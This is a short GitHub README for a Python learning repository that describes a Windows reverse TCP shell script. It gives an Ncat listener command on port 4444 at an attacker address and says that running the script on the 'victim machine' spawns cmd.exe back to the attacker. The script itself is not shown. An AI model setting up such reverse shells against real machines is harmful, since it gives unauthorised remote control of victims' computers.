

# advance_python_learning

Advance python learning for system driver development & reverse engineering

## Topics

- windows_reverse_tcp_shell spwan cmd.exe -
  - This connects to server IP on specific port.

## Prerequisites
- python 3 - https://www.python.org/downloads/
- Ncat - https://nmap.org/ncat/

## Usages

- Ncat attacker server listeninig on a port eg: here (192.168.1.9) is controlled by attacker and listening incoming to incoming requests on port 4444, below is cmd which creates listner
    - ncat.exe -lvnp 4444

- On execute `python windows_reverse_tcp_shell.py` on client/victim machine it will spawn cmd.exe shell to victim, Bang!

## POC Screenshot

[]
